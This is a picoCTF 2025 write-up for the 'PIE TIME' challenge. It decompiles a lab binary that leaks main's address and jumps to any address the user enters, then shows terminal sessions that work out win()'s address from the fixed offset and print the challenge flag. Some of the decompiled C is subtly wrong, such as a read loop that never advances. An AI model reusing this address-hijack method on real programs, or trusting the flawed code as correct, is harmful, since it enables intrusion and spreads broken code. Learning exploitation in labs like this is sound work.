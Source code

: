 ```yaml
---
title: PicoCTF - PIE TIME
published: 2025-08-07
description: PicoCTF Writeup for PIE TIME Challenge
tags: [binary exploitation, easy, picoCTF 2025]
category: CTF Writeup
draft: false
lang: en
---
```


# PicoCTF Writeup - PIE TIME

PicoCTF Challenge: 
[https://play.picoctf.org/practice/challenge/490?category=6&page=1](https://play.picoctf.org/practice/challenge/490?category=6&page=1)

> ## PIE TIME
> Author: Darkraicg492
> 
> ### Description
> Can you try to get the flag? Beware we have PIE!<br>
> Additional details will be available after launching your challenge instance.<br>
> ### Hints
> 1st - Can you figure out what changed between the address you found locally and in the server output?<br>
> ### Resources:
> Source Code: [/vuln.c](https://challenge-files.picoctf.net/c_rescued_float/1d01af98df77f5ba0339c7e7ba2031e95c3bcce1397dc3b60617dfcfe2e4c7be/vuln.c)<br>
> Binary: [/vuln](https://challenge-files.picoctf.net/c_rescued_float/1d01af98df77f5ba0339c7e7ba2031e95c3bcce1397dc3b60617dfcfe2e4c7be/vuln)<br>

```bash title="Server Information"
$ nc rescued-float.picoctf.net 59097
```

## Decompile

We can decompile the binary to a pseudo C like this (Binary Ninja):

```c title="/vuln_original.c"
00401289    void segfault_handler() __noreturn

00401289    {
00401289        puts("Segfault Occurred, incorrect add…");
004012a2        exit(0);
004012a2        /* no return */
00401289    }

/* ... */

004012a7    int win()
004012a7    /* all puts, putchar should be changed to printf() */

004012a7    {
004012a7        puts("You won!");
004012cd        FILE* fp = fopen("flag.txt", "r");
004012cd        
004012db        if (!fp)
004012db        {
004012ff            puts("Cannot open file.");
004012ee            exit(0);
004012ee            /* no return */
004012db        }
004012db        

00401322        char i = fgetc(fp);
00401322        while (i != EOF) { /* 0xff => EOF */
00401322            putchar(i)
00401322        }

00401322        
00401329        putchar("\n"); /* \n in ASCII code (line-break) */
0040133c        return fclose(fp);
004012a7    }


/* ... */

0040133d    int main()
0040133d    /* int32_t argc => Not used */
0040133d    /* char** argv => Not used */
0040133d    /* char** envp => Not used */

0040133d    {
0040133d        void* fsbase;
00401349        int64_t rax = *(uint64_t*)((char*)fsbase + 0x28);
00401349        /* No needed */

00401364        signal(SIGSEGV, segfault_handler); /* 0xb => SIGSEGV */
00401382        setvbuf(stdout, NULL, _IONBF, 0);
00401382        /* __TMC_END__ => stdout */
00401382        /* nullptr => NULL */
00401382        /* 2 => _IONBF (no buffering) */


0040139a        printf("Address of main: %p\n", &main);
0040139a        /* &main to show memory pointer */

004013ab        printf("Enter the address to jump to, ex => 0x12345: ");
004013c3        unsigned long buffer;
004013c3        /* var_20 => buffer (stores a memory address) */
004013c3        scanf("%lx", &buffer);
004013c3        /* __isoc99_scanf => scanf */

004013db        printf("Your input: %lx\n", buffer);

004013ec        void (*target_func)(void) = (void (*)())buffer;
004013ec        /* need to declare as a function before jump */
004013ec        target_func();
004013ec        /* jump to the memory location that user provided */    

004013ec        
00401400        /* Useless from below here */
00401400        if (rax == *(uint64_t*)((char*)fsbase + 0x28))
00401408            return 0;
00401408        
00401402        __stack_chk_fail();
00401402        /* no return */
0040133d    }

```

This is the full source code (decompiled):

```c title="/vuln.c"
void segfault_handler()
{
    printf("Segfault Occurred, incorrect address.");
    exit(0);
}

int win()
{
    printf("You won!");
    FILE* fp = fopen("flag.txt", "r");   
    if (!fp)
    {
        printf("Cannot open file.");
        exit(0);
    } 

    char i = fgetc(fp);
    while (i != EOF) {
        printf("%c", i)
    }
 
    printf("\n");
    return fclose(fp);
}

int main()
{
    signal(SIGSEGV, segfault_handler);
    setvbuf(stdout, NULL, _IONBF, 0);

    printf("Address of main: %p\n", &main);
    printf("Enter the address to jump to, ex => 0x12345: ");
    unsigned long buffer;
    scanf("%lx", &buffer);
    printf("Your input: %lx\n", buffer);

    void (*target_func)(void) = (void (*)())buffer;
    target_func(); 
}
```

## Analysis
This program directly jumps to the memory address provided by the user. Additionally, it automatically reveals the address of the `main()` function. By using this address, the user can infer the address of the `win()` function. If the correct address is entered, the program will print the flag.

```c
004012a7    int64_t win() /* 0x0004012a7 */
```

```bash
therustymate-picoctf@webshell:~$ vuln
-bash: vuln: command not found

therustymate-picoctf@webshell:~$ ./vuln
Address of main: 0x564a8857633d
Enter the address to jump to, ex => 0x12345: 0x0004012a7
Your input: 4012a7
Segfault Occurred, incorrect address.

therustymate-picoctf@webshell:~$ ./vuln
Address of main: 0x55958f4eb33d
Enter the address to jump to, ex => 0x12345: 0x4012a7
Your input: 4012a7
Segfault Occurred, incorrect address.

therustymate-picoctf@webshell:~$ ./vuln
Address of main: 0x56426097933d
Enter the address to jump to, ex => 0x12345: 004012a         
Your input: 4012a
Segfault Occurred, incorrect address.

therustymate-picoctf@webshell:~$ ./vuln
Address of main: 0x55d43b65e33d
Enter the address to jump to, ex => 0x12345: 0x55343b64012a
Your input: 55343b64012a
Segfault Occurred, incorrect address.

therustymate-picoctf@webshell:~$ ./vuln
Address of main: 0x560ada01333d
Enter the address to jump to, ex => 0x12345: 0x560ada0132ㅁ7           
Your input: 560ada0132
Segfault Occurred, incorrect address.
```

Notice that the `main()` function offset **33d** does not change.<br>
Therefore, the base address is `0xXXXXXXXX+func (3 bytes)`

This suggests that the input should be: `0xXXXXXXXX2a7` in order to jump to the `win()` function.

```bash
therustymate-picoctf@webshell:~$ nc rescued-float.picoctf.net 59097
Address of main: 0x5fd38eed433d
Enter the address to jump to, ex => 0x12345: 0x5fd38eed42a7
Your input: 5fd38eed42a7
You won!
picoCTF{b4s1c_p051t10n_1nd3p3nd3nc3_00dea386}
```

The flag is: `picoCTF{b4s1c_p051t10n_1nd3p3nd3nc3_00dea386}`
